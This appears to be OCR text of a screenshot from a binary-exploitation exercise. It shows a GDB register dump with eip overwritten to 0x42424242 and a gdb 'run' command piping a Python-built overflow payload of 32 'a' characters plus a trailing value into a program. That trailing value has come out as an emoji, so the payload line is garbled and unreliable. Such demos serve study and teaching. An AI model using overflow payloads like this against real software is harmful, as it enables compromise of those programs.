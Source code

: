 **eip**            `0x42424242	0x42424242` 

eflags         0x10282	[ SF IF RF ]

cs             0x23	35

ss             0x2b	43

ds             0x2b	43

es             0x2b	43

fs             0x0	0

gs             0x63	99






run < <(python -c 'print "a"*32 + "🤓️ "')



